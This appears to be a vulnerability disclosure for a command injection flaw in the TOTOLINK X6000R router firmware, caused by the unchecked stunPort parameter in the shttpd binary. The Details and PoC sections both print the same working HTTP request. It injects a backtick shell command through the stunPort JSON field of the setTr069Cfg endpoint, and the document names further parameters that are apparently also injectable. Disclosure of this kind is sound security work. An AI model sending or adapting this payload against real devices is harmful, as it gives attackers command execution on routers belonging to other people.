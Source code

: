 # Summary
There is a command execution vulnerability in TOTOLINK X6000R V9.4.0cu.852_B20230719(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is parameter **`stunPort`** of `sub_4119A0` function in `/usr/sbin/shttpd` binary file.

**Notice**:
I checked **all the currently disclosed CVEs** and found that the affected parameters in the currently exposed sub_4119A0 are:
- [ ] interval
- [ ] pass
- [ ] enable
- [ ] url
- [ ] informEnable
- [ ] user
- [ ] stun_user
- [ ] request_user
- [ ] request_pass
- [ ] stun_enable
- [ ] stunServerAddr

However, parameters
- [ ] **port**
- [ ] **stunPort**
- [ ] **stunMaxAlive**
- [ ] **stunMinAlive**

are ignored.

# Details
Funtion `sub_4119A0` get `stunPort` from user's input and use `Uci_Set_Str`, which leads to command execution:
![image](https://github.com/user-attachments/assets/0d38a7ea-02f2-4bbe-9df6-77a2f0291dcb)

`Uci_Set_Str`:
![image](https://github.com/user-attachments/assets/fec24bc9-d13a-4c0f-bcd0-57a605e68383)

`CsteSystem`:
![image](https://github.com/user-attachments/assets/c55d454e-996d-451d-b21a-837127736d69)

The corresponding front-end web interface is here:
![image](https://github.com/user-attachments/assets/12ba6593-3d59-4390-ad1b-fbf1e3d9d2a6)

Use burpsuite to intercept the packet, and modify the value of `stunPort`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 325
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"`ls > /web/poc_stunPort.txt`","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/2c48dc33-ced8-4b7d-a88d-df3c01e5c438)

![image](https://github.com/user-attachments/assets/20a7406d-397c-476a-8ef1-1f795c764090)


# PoC
Login first,
Use burpsuite to intercept the packet, and modify the value of `stunPort`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 325
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"`ls > /web/poc_stunPort.txt`","stunMaxAlive":"","stunMinAlive":"","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/2c48dc33-ced8-4b7d-a88d-df3c01e5c438)

![image](https://github.com/user-attachments/assets/20a7406d-397c-476a-8ef1-1f795c764090)
